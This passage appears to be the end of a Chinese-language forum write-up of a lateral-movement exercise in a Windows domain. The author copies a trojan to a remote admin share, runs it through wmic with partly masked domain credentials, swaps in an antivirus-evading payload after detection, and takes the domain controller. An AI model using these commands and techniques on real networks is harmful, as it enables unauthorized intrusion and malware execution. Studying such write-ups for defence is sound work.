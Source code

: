 查看192.168.123.2的c盘下的文件

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-133fdfd17f754543e4627731e944b69dde7e2681.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-133fdfd17f754543e4627731e944b69dde7e2681.png)

然后将木马给传到192.168.123.2的c:\\windows\\temp\\目录下，名为ak.exe

> shell copy c:\\windows\\temp\\hex.jpg \\192.1618.123.2\\c$\\windows\\temp\\ak.exe

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c7502e581060cf14361e4789d9e037c7dd52a6fd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c7502e581060cf14361e4789d9e037c7dd52a6fd.png)

接着wmic远程执行命令，运行那个马儿

> shell wmic /node:192.168.123.2 /user:ty****y\\steve /password:ay****9 process call create "cmd.exe /c C:\\Windows\\Temp\\ak.exe"

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-49c675a051a1f90127dfc2f01778ae5b25bc59b8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-49c675a051a1f90127dfc2f01778ae5b25bc59b8.png)

但是没有上线 怎么回事  
查看下123.2 的sysinfo  
利用wmic 执行命令输出到文件 然后查看  
放到在线杀软查询 发现有一个微软的杀软

然后重新传了一个免杀马  
成功上线

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-838fb6b6c39936e8b6056a6467ae9dc03cc549eb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-838fb6b6c39936e8b6056a6467ae9dc03cc549eb.png)

最后一台域控也成功拿下  
后续的权限维持不太会 就没有操作了  
删马结束  
over

### 最后

其实还是有些地方有点不明白 横线ay域的时候 用的是ty域的账号  
msf的流量代理也是 只能带17010打的时候的流量 就有点懵  
师傅们轻点喷 ~ 师傅们指点